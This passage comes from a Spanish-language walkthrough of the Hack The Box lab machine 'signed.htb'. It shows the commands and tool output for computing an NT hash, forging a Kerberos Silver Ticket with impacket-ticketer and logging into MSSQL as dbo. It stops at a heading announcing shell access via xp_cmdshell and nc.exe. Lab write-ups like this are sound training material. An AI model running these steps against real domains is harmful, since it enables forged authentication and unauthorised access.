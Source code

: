* Otra opción para el **Hash NT** sería usar el comando **iconv** y **openssl**:
```bash
iconv -f ASCII -t UTF-16LE <(printf '**********') | openssl dgst -md4
MD4(stdin)= **********
```

Con todo esto listo, ya solamente tenemos que generar nuestro **Silver Ticket** con la herramienta **impacket-ticketer**:
```batch
impacket-ticketer -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -domain signed.htb -spn MSSQLSvc/DC01.signed.htb:1433 -groups 1105 -user-id 1103 mssqlsvc -nthash **********
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for signed.htb/mssqlsvc
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in mssqlsvc.ccache
```
Fue un éxito la creación del **Silver Ticket**.

Exportamos el archivo **mssqlsvc.ccache** como una variable de entorno:
```bash
export KRB5CCNAME=mssqlsvc.ccache
```

Y nos conectamos al **MSSQL** usando ese ticket:
```batch
impacket-mssqlclient -k -no-pass DC01.SIGNED.HTB
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (SIGNED\mssqlsvc  dbo@master)>
```
Estamos dentro.

<br>

<h2 id="xp_cmdshell">Ganando Acceso a la Máquina Víctima con xp_cmdshell y Binario nc.exe</h2>

Comprobemos con qué usuario nos logueamos al **MSSQL**:
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT USER_NAME();
      
---   
dbo
```
Excelente, somos el **usuario dbo**, es decir, que tenemos máximos privilegios.
